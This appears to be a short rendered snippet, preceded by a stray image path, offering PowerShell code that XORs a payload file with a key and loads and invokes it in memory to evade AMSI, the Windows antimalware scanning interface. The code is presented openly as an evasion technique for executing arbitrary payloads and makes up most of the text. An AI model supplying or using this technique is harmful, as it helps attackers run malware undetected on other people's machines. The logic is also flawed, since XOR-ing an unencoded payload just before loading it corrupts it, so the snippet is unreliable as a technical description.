 XOR a byte array with a certain key to bypass AMSI
The key can be any arbitrary value, and the byte array can be the binary of the payload you want to execute. 

```powershell
$bytes = [System.IO.File]::ReadAllBytes("C:\path\to\payload.exe")
$key = 0xAA
for ($i = 0; $i -lt $bytes.Length; $i++) {
    $bytes[$i] = $bytes[$i] -bxor $key
}
[System.Reflection.Assembly]::Load($bytes).EntryPoint.Invoke($null, $null)
```
